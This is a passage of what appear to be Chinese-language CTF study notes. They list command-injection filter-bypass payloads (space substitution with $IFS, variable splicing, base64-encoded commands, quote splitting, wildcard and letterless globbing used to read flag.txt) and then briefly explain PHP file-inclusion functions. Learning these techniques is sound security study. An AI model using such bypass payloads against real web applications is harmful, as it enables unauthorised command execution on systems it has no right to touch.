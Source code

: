 - `cat${IFS}flag.txt`
- `cat$IFS$9flag.txt`（这里用$1~9都可以）
- `cat<flag.txt`
- `cat<>flag.txt`（<>为重定向符号）
- `kg=$'\x20flag.txt'&&cat$kg`（\x20转化成字符串是空格，这里通过变量的方式绕过）

**敏感字符绕过：**

1. 变量绕过：`a=g.php;cat fla$a`

2. 编码绕过（假设过滤cat）：

   ```
   `echo 'Y2F0Cg=='|base64 -d` flag.txt
   ```

3. 链接符截断绕过（假设过滤cat）：

   - `c\at flag.txt`
   - `ca$@t flag.txt`
   - `c'a't flag.txt`

**通配符绕过：**

1. `**?`在linux里面可以进行代替一个任意字符**
   - `/???/[l-n]s`可以代替ls
   - `/???/c?t flag.txt` 可一代替`cat flag.txt`
2. **`*`在linux里面可以代替任意一个符号**
   - `ls *.php`列出当前目录下所有php文件
3. 无字母数字匹配
   - 如果外面遇到一个正则表达式将字母数字$这些都过滤掉，要外面执行一个脚本的话
   - 假如脚本名称为chakdiD且在根目录/etc下。我们可以用`./???/???????[@-[]`**（问号的个数对应chakdiD脚本的路径）**
   - [@-[]表示取从@到[之间的字符，这之间的字符都为大写字母。这样就实现了无字母数字匹配的命令，可以绕过正则表达式



## 文件包含

文件包含是指传递一个参数（可以是一个文件），然后PHP脚本包含这个文件，则无论这个文件是什么格式，访问PHP脚本，传递参数的文件都能以PHP格式执行

在一个网站中任何一个能提交的参数都是文件包含的测试对象

文件包含相关函数：

- php

  ```
  require:函数出现错误时，会直接报错并退出程序执行
  require_once：出错直接退出；且仅包含一次。在脚本执行期间同一个文件可能被多次引用，确保只包含一次以避免函数重定义，变量重新赋值等问题。
  include：出现错误时，会出现警告但是程序会继续执行
  include-once：出现错误时，会抛出警告，且仅包含一次 
  ```

- jsp/servlet

  ```
  ava.io.file()
  java.io.filereader(）  
  ```
